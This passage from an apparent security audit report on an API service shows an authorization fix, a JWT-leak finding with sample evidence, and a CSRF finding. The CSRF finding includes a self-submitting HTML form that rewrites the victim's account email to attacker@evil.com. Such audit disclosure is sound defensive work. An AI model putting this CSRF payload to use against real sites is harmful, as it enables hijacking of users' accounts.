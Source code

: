 **Fix**: Implement proper authorization checks:
```javascript
const getApiKey = async (req, res) => {
  const { keyId } = req.params;
  const userId = req.user.id;
  
  const apiKey = await db.apiKeys.findOne({
    where: { id: keyId, user_id: userId } // ✅ User ownership check
  });
  
  if (!apiKey) {
    return res.status(404).json({ error: 'API key not found' });
  }
  
  res.json(apiKey);
};
```

### 🟡 M2: JWT Token Disclosure in Error Messages

**Risk**: Medium | **CVSS**: 6.1  
**Location**: Various API endpoints

**Issue**: JWT tokens included in error responses and debug information.

**Evidence**:
```json
{
  "error": "Authentication failed",
  "debug_info": {
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...",
    "decoded_payload": {
      "user_id": "123",
      "email": "victim@example.com",
      "role": "admin"
    }
  }
}
```

### 🟡 M3: Cross-Site Request Forgery (CSRF) on Account Settings

**Risk**: Medium | **CVSS**: 5.9  
**Location**: `/api/v1/users/settings`

**Attack Vector**:
```html
<!-- Malicious website -->
<form action="https://api.code-quality-predictor.com/api/v1/users/settings" 
      method="POST" id="csrf-form">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="hidden" name="notifications" value="false">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```
